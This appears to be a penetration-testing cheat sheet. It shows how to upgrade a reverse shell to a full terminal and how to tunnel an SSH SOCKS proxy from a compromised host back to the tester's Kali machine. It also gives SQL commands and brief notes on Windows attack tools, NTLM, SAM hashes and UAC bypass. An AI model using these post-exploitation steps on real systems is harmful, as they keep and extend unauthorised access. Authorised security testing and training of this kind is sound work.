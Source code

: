 ### Upgrading reverse shell

1. Make sure shell is bash: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. Send reverse shell to background: `CTRL + Z`
3. Change terminal setting: `stty raw -echo; fg`
4. export TERM=xterm
5. (Optional) change terminal row and width, use `stty rows 75 cols 250`

or

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
reset
```

### Send SSH proxy back home

If direct SSH is not possible but SSH is available inside the reverse shell, you can tunnel it back to your Kali machine using two reverse shells:

- **Reverse Shell 1 (create SOCKS proxy):**
    ```bash
    ssh -N -D 9999 localhost
    ```
- **Reverse Shell 2 (forward proxy back to Kali):**
    ```bash
    ssh -N -R 9999:localhost:9999 kali@<kali ip>
    ```
- Then on Kali use 9999 as proxy (for example with `proxychains`)

## SQL

- `sqlmap`: Automated tool for SQL injection and database takeover.

Quick SQL command cheat sheet

- **Select database:** `USE <database_name>;`
- **List tables:** `SHOW TABLES;`
- **Show table schema:** `DESCRIBE <table_name>;`
- **View table entries:** `SELECT <column1>, <column2> FROM <table_name>;`

## Windows

- [Shellter](https://www.shellterproject.com/homepage/)
- bloodhound https://github.com/SpecterOps/BloodHound GUI to map explore and see interesting relations
- Mimikatz for Kerberos
- Remmina for RDP sessions

- **LM (LanManager):** Old, deprecated, no encryption.
- **NTLM (New Technology LanManager):** Insecure, deprecated. ISO/EITS standards recommend not using it ([EITS documentation](https://eits.ria.ee/et/versioon/2023/eits-poohidokumendid/etalonturbe-kataloog/app-rakendused/app2-kataloogiteenused/app22-active-directory-domain-services/4-lisateave/4-lisateave/42-ruehmapoliitika-turvasaetete-naeidis/)). Vulnerable to Pass-the-Hash attacks.
- Windows authentication over IP defaults to NTLM. Be cautious! Windows AD and Kerberos require using FQDNs.
- User logins save password hashes to the SAM file (`C:\Windows\system32\config\SAM`). This is similar to `/etc/shadow` in Linux, but Windows hashes are not salted. **Common Sense Security tip:** Never log in to workstations or weakly secured hosts with domain admin or other high-privilege accounts.
- In Windows, hiding can be done using services or DLLs.
- Windows reverse shell payloads can translate Linux commands to Windows equivalents.
- UAC (User Account Control) bypass techniques exist.

